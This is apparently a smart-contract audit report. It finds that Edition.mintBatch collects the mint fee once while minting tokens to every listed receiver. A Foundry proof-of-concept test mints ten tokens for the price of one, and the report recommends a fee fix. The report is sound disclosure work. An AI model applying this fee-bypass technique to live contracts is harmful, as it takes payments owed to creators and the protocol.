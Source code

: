 Suave Heather Barbel

high

# `Edition.mintBatch` allows anyone to mint multiple works at the price of one

## Summary
One of the [`mintBatch`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304) function allows anyone to mint multiple tokens(works) at the cost of one.

## Vulnerability Detail
The two `mintBatch` function both allows users to mint multiple tokens, the one in this issue mints multiple tokens to a list of receivers:

```solidity
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
        );

        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }

        _refundExcess();
    }
```

We see, in the function, fees are firstly collected, then the function loops through the receivers array and issue the amount for each receiver. The issue here is, token's fees are deducted only once, but all receivers can get the same amount of tokens. Furthermore, the array can be filled with one single address, and this address will be minted multiple tokens at the cost of one.

In the below PoC test case, Bob mints himself 10 tokens at the cost of 1:

```solidity
    function test_mint_batch_2() public {
        address bob = address(0x1337);
        hoax(bob, 10e18);
        assertEq(bob.balance, 10e18);
        address[] memory receivers = new address[](10);
        for (uint256 i = 0; i < 10; i++) {
            receivers[i] = bob;
        }
        edition.mintBatch{value: 0.0106 ether}(receivers, 1, 1, new bytes(0));
        assertEq(edition.totalSupply(1), 10);
        assertEq(address(1).balance, 0.01 ether);
        assertEq(address(0xc0ffee).balance, 0.0006 ether);
        console.log("bob's balance of token id 1:", edition.balanceOf(bob, 1));

    }
```

The terminal would print:

```plaintext
[PASS] test_mint_batch_2() (gas: 249008)                                                                                                 
Logs:
bob's balance of token id 1: 10  
```

## Impact
Users can get more than they deserved.

## Code Snippet
```solidity
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
        );

        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }

        _refundExcess();
    }
```

## Tool used

Manual Review, foundry

## Recommendation
Calculates the correct fee required for minting all tokens for all receivers.
